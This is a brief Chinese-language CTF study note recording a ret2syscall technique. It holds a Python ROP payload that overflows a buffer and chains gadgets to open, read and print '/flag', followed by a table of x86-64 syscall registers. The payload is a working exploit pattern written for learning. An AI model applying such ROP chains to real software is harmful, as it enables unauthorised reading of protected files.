 发现没有写过ret2syscall的题目，记录一下方便忘了再看

```python
payload = b'/flag\x00'+b'a'*(0x48-6) + p64(pop_rdi)+p64(buf)+p64(pop_rsi)+p64(0)\
    + p64(pop_rdx) + p64(0) \
    + p64(pop_rax)+p64(2)+p64(syscall) + p64(pop_rdi) + p64(3) +p64(pop_rsi) + p64(buf+0x10) \
    +p64(pop_rdx)+p64(0x32) +p64(pop_rax)+p64(0)+p64(syscall)+ p64(pop_rdi) + p64(1) + p64(pop_rsi) \
    + p64(buf+0x10) + p64(pop_rdx) + p64(0x90) + p64(pop_rax) + p64(1) +p64(syscall)
```

| %rax | System call | %rdi                 | %rsi            | %rdx         | %rcx | %r8  | %r9  |
| :--- | :---------- | :------------------- | :-------------- | :----------- | :--- | :--- | :--- |
| 0    | sys_read    | unsigned int fd      | char *buf       | size_t count |      |      |      |
| 1    | sys_write   | unsigned int fd      | const char *buf | size_t count |      |      |      |
| 2    | sys_open    | const char *filename | int flags       | int mode     |      |      |      |
| 3    | sys_close   | unsigned int fd      |                 |              |      |      |      |